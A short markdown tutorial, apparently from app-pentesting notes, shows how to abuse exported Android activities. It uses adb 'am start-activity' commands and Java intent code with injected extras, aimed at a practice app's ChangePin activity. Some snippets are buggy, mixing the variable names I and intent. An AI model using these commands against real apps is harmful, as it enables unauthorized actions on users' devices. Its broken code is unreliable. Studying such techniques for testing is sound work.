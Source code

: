 
## Exported Actvites with Extras
sometimes we can send an intent with some data if we have a code like the following and if the activity is exported then we can conrtol the data sent to it  



- java code
```java
Intent intent = getIntent();
username = intent.getStringExtra("username");
```
- AndoridMainfest
```xml
<activity android:name=".ChangePin" android:exported="true">
  <intent-filter>
    <action android:name="com.apphacking.changePin"/>
    <category android:name="android.intent.category.DEFAULT"/>
  </intent-filter>
</activity>
```

### open activity and use Extras in shell
```powershell
# explicit intent is an intent to specfic app
am start-activity -n <package name>/.<activity name> --es "paramter" "value"
am start-activity -n com.apphacking.alarmpin/.ChangePin --es "paramter" "value"

# implicit intent is an intent to be recived by appropiate apps
am start-activity -a <intent action name> --es "paramter" "value"
am start-activity -a <intent action name> -c <intent category name> --es "paramter" "value"

am start-activity -a com.apphacking.changePin  --es "username" "hacked"
am start-activity -a com.apphacking.changePin -c android.intent.category.DEFAULT  --es "username" "fuck"
```

### open activity and use Extras in another app
```java
// explicit intent
Intent I = new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
I.putExtra("paramter", "value");
startActivity(I);

// example
Intent I = new Intent();
ComponentName C = new ComponentName("com.apphacking.alarmpin", "com.apphacking.alarmpin.ChangePin");
I.setComponent(C);
I.putExtra("username", "fucker");
startActivity(I);

// implicit intent
Intent I = new Intent();
I.setAction("<intent action name>"); 
I.addCategory(<intent category name>);  
I.putExtra("paramter", "value");        
startActivity(intent); 

// example
Intent intent = new Intent();
I.setAction("com.apphacking.changePin"); 
I.addCategory(Intent.CATEGORY_DEFAULT); 
```